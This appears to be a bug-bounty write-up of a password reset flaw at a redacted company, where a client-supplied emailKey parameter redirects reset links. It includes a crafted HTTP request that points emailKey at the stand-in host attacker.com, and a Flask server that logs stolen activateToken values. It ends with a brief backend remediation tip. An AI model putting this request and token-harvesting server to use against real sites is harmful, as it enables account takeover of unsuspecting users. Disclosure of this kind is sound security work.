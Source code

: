   title: "Exploiting Password Reset Vulnerabilities: A Case Study",
  date: "2025-01-26",
  summary: "The vulnerability was found in the password reset mechanism of the platform, specifically in how the `emailKey` parameter was handled in the form data. By altering this parameter, an attacker could redirect password reset requests to their own malicious website.",
};

# Exploiting Password Reset Vulnerabilities: A Case Study

## Introduction

Password reset features are critical to account recovery workflows, but misconfigurations can open the door to severe security risks. Recently, I discovered a vulnerability in the password reset implementation of **[Redacted Company]**, which allowed an attacker to hijack the password reset process and potentially compromise user accounts.

---

## Summary of the Vulnerability

The vulnerability was found in the password reset mechanism of the platform, specifically in how the `emailKey` parameter was handled in the form data. By altering this parameter, an attacker could redirect password reset requests to their own malicious website.

---

## Steps to Reproduce

1. **Create an account**: Register a new account on **[Redacted Company]**'s platform.  
2. **Initiate password reset**: Request a password reset for the account.  
3. **Capture the request**: Intercept the reset request using a proxy tool like Burp Suite or similar.  
4. **Modify the payload**: Replace the `emailKey` parameter from the legitimate URL to a malicious domain.  
   - Example:  
     ```plaintext
     emailKey=https://www.[redacted].com/.edm.FGTPASS.data
     ```
     becomes  
     ```plaintext
     emailKey=https://attacker.com/.edm.FGTPASS.data
     ```
5. **Send the modified request**: The victim receives an email with the manipulated reset link.  
6. **Click the reset link**: When the victim clicks the link, the attacker harvests sensitive tokens (e.g., `activateToken`) and gains control of the account.

---

## Supporting Material

### Request Example:

```http
POST /[redacted]/users/forgotpassword HTTP/2
Host: www.[redacted].com
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

email={VICTIM_EMAIL}&userName={VICTIM_USERNAME}&emailKey=https%3A%2F%2Fattacker.com%2F.edm.FGTPASS.data
```
---
---

## Exploitation Code:

```
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/')
def index():
    return 'Welcome to Attacker\'s Site!'

@app.route('/.edm.FGTPASS.data')
def capture_token():
    args = request.args
    if "activateToken" in args:
        token = args.get("activateToken")
        with open("stolen_tokens.txt", "a") as file:
            file.write(f"{token}\n")
    return "Token captured!"
```
this will mimic the original /.edm.FGTPASS.data and steal the ``activateToken``, then upload to the server. By replacing the ``emailKey``, we are able to steal  the ``activateToken``.

## Conclusion

Do not trust client-side request, do not put something like this. The email template should be prepared in the backend.